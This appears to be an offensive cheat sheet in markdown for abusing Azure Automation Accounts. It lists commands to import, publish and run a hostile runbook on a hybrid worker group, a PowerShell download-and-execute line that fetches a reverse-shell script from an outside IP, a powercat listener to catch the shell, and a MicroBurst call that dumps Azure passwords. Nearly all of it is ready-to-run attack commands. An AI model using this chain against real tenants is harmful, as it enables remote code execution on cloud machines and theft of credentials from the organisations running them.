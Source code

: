 #### Get the role assigned of the automation accounts
- Check for the Roledefinition
- Get the ID from az automation account list
```
Get-AzRoleAssignment -Scope <ID>
```

#### Check if a hybrid worker is in use by the automation account
```
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <NAME> -ResourceGroupName <NAME>
```

### Runbook
#### Import Powershell runbook
```
Import-AzAutomationRunbook -Name <NAME> -Path <PATH TO .ps1 FILE> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Type PowerShell -Force -Verbose
```

#### Example contents of .ps1 file
```
IEX (New-Object Net.Webclient).downloadstring("http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1")
```

#### Publish the automation runbook to the vm
```
Publish-AzAutomationRunbook -RunbookName <NAME FOR RUNBOOK> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Start listener
```
powercat -l -v -p 443 -t 600
```

#### Start the runbook
```
Start-AzAutomationRunbook -RunbookName <NAME OF RUNBOOK> -RunOn <WORKERGROUP NAME> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

### Extract credentials
- https://github.com/NetSPI/MicroBurst
```
Import-Module Microburst.psm1
Get-AzurePasswords
```

### Read Jobs
- Portal:
	- Open the automation account in the portal and click on "Jobs". Then open the jobs.
